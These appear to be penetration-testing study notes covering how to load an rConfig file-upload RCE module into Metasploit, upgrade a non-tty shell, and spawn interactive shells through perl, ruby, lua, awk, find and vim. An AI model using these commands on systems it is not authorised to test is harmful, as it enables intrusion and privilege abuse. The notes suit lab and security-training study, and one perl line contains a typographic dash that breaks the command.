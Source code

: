     What application is the system hosting?

    Are there any known vulnerabilities?

If there is no package available in msfconsol, we can download from GH. We put the exploit in `/usr/share/metasploit-framework/modules/exploits/linux/http`. Thereafter it can be found by msfconsole. 
`use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`

To upgrade from `non-tty shell`, use: `python -c 'import pty; pty.spawn("/bin/sh")' `

# Spawning Interactive Shells
```bash
# perl -e
perl —e 'exec "/bin/sh";'

# Ruby
ruby: exec "/bin/sh"

# Lua
lua: os.execute('/bin/sh')

# AWK
awk 'BEGIN {system("/bin/sh")}'

# Find
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# Using Exec To Launch A Shell
find . -exec /bin/sh \; -quit

# vim
vim -c ':!/bin/sh'

# vim escape
vim
:set shell=/bin/sh
:shell

# Check permissions
sudo -l
```